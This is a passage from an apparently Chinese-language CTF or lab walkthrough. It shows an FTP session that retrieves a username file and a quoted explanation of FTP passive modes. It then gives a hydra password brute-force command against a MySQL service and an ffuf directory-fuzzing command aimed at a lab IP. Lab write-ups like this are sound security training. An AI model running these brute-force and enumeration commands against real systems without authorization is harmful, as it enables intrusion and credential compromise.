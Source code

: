 ```bash
-rw-r--r--    1 0        0              12 Nov 22 21:46 allowedusersmysql.txt
226 Directory send OK.
ftp> get allowedusersmysql.txt
local: allowedusersmysql.txt remote: allowedusersmysql.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for allowedusersmysql.txt (12 bytes).
100% |***************************************************************************************************************|    12        0.12 KiB/s    00:00 ETA
226 Transfer complete.
12 bytes received in 00:00 (0.12 KiB/s)
ftp> q
?Ambiguous command.
ftp> exit
221 Goodbye.
```

> 当你使用FTP（文件传输协议）连接到某个服务器时，服务器可能会发送一个消息，告诉你它正在进入“Extended Passive Mode”（扩展被动模式）。这是FTP协议的一个特性，用于解决某些网络环境中的连接问题。
>
> 为了理解这个，我们首先需要了解FTP的两种主要模式：主动模式（Active Mode）和被动模式（Passive Mode）。
>
> 1. **主动模式（Active Mode）**：
>    - 客户端打开一个端口并监听这个端口，等待服务器的连接。
>    - 服务器使用客户端提供的IP地址和端口号来主动连接客户端。
>    - 这种方法在某些防火墙或NAT（网络地址转换）环境中可能不起作用，因为客户端的IP地址可能不是外部可访问的。
> 2. **被动模式（Passive Mode）**：
>    - 客户端打开一个端口并发送一个PASV命令给服务器，请求服务器提供一个数据端口。
>    - 服务器在其自己的IP地址上打开一个端口，并告诉客户端这个端口号。
>    - 客户端然后连接到这个端口来传输数据。
>    - 这通常更适用于有防火墙或NAT的环境，因为客户端总是发起连接。
>
> **扩展被动模式（Extended Passive Mode）**是被动模式的一个变种，它允许服务器提供更详细的网络地址信息，特别是当服务器位于IPv6环境或需要提供更具体的网络路径信息时。
>
> 当你看到“Entering Extended Passive Mode”的消息时，这通常意味着FTP服务器正在为数据传输准备一个端口，并准备在扩展被动模式下与客户端通信。这通常是为了确保更可靠和灵活的数据传输，特别是在复杂的网络环境中。
>
> 这里可以手动启动passive，直接输入即可，然后就可以很快读取了。

所以没出来的话不要急！

```bash
cat allowedusersmysql.txt         
trainerjeff
```

感觉像是mysql的数据库用户名，尝试爆破一下：

```bash
hydra -l trainerjeff -P /usr/share/wordlists/rockyou.txt mysql://10.0.2.19
```

不管他，丢后台跑去吧，贼慢的这个，尝试一下是否有敏感目录没发现：

```bash
ffuf -u http://10.0.2.19/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```
